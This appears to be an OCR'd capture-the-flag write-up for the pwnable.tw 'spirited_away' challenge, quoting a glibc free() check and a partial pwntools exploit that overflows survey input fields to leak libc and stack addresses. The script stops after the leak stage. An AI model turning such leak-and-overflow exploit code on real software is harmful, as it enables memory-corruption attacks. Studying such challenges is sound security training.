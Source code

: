 ```py
        chunk_at_offset (p, size)->size <= 2 * SIZE_SZ
        || chunksize (chunk_at_offset (p, size)) >= av->system_mem;
        }))
    {
    errstr = "free(): invalid next size (fast)";
    goto errout;
    }
    if (! have_lock)
    {
        (void)mutex_unlock(&av->mutex);
        locked = 0;
    }
}
```

##### Exploit
```py
from pwn import *

exe = ELF("./spirited_away_patched")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe
context.log_level = "debug"

def conn():
    if args.LOCAL:
        r = process([exe.path])
        # r = gdb.debug ([exe.path], "b *survey")
    else:
        r = remote("chall.pwnable.tw", 10204)

    return r

def Input (p, name, age, reason, comment):
    p.sendafter (b'name: ', name)
    p.sendlineafter (b'age: ', age)
    p.sendafter (b'movie? ', reason)
    p.sendafter (b'comment: ', comment)

def Input_after_10 (p, age, reason):
    p.sendlineafter (b'age: ', age)
    p.sendafter (b'movie? ', reason)

def main():
    p = conn()
    Input (p, b'ndd', b'12', b'A' * 9, b'bullshit')
    p.recvuntil (b'A' * 8)
    leak = u32 (p.recv(4))
    libc.address = leak - 0x1e2041
    print ("The leak is: ", hex (leak))
    print ("the address of libc is: ", hex (libc.address))

    p.sendlineafter (b'<y/n>: ', b'y')

    Input (p, b'ndd', b'12', b'A' * 56, b'yyyyyy')
    p.recvuntil (b'A' * 56)
    leak = u32 (p.recv (4))
    ebp = leak - 0x20
    print ("The leak is : ", hex (leak))
    print ("The ebp is : ", hex (ebp))

```